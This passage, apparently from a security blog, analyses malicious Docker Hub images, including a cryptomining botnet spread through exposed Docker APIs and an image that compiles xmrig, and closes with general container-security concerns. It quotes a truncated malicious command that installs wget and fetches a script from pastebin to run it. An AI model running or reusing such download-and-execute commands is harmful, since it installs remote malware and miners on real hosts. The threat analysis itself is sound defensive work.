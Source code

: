 Suspicious level: high

Ok this time we are sure it is malicious : `chroot /mnt /bin/sh -c 'yum install wget -y;apt-get install wget -y;rm hrfbyyu.sh;wget https://pastebin.com/raw/h7HiT3uR ...` 

So when the image it started, it will install wget via `yum` OR `apt-get`, then download and execute a script from `pastebin` ... does not really look legit ...

The script itself is base64 encoded and contains update and persistence mechanisms for Linux and cryptomining activities.

### Xulu botnet

Suspicious level: high

Some month ago, a user named `zuulu2` on Docker Hub uploaded malicious images perfoming scanning of other potential victims and cryptomining activities. It spread exploiting open Docker API. Malicious images were removed from Docker Hub.

By getting the list of running or available containers, we can see that the zuulu2 images are still running on several servers.

### Dockerfile: CMD ["/run.sh"] 

We identified this image posted on Docker Hub 6 month ago. User only uploaded one image and the description was just `CMD ["/run.sh"]`. By using Dive, we identified modifications from the base image (alpine):

 - adding a user named `miner`
 - downloading and compiling xmrig
 - starting the mining process (XMR)




## Containers security
 
The security of a container does not resume only to the container itself. A container is based on an image, which contains all the files required to run. But what if the used image is vulnerable or it has some configuration defects,embedded clear text secrets or it might contain embedded malware, intended to do something else than the initial purpose.

Many images for containers are stored usually in a central location because they are easy to control, reuse, share across the community. Do we trust those  registries or are we sure that the connection to those registries is secure?

Orchestration tools are great for managing the containers. They pull the images from registries , deploy images into containers and manage the running containers. But is it always clearly defined who has access or not?Do we trust the orchestrator node in the cluster? Is it properly separated the network traffic between the containers in the orchestrator configuration ?

Multiple containers share the same OS kernel instance.Each operating system has a container runtime, which coordinates different OS components in such a way that each container sees only its dedicated resources and it is isolated from other containers running at the same time. Anyone with access to the kernel root account can see and access all containers.The attack surface level on the host OS is pretty big. The attacker can attempt to exploit host OS vulnerabilities, tampering file systems or gain priviledged user access rights.
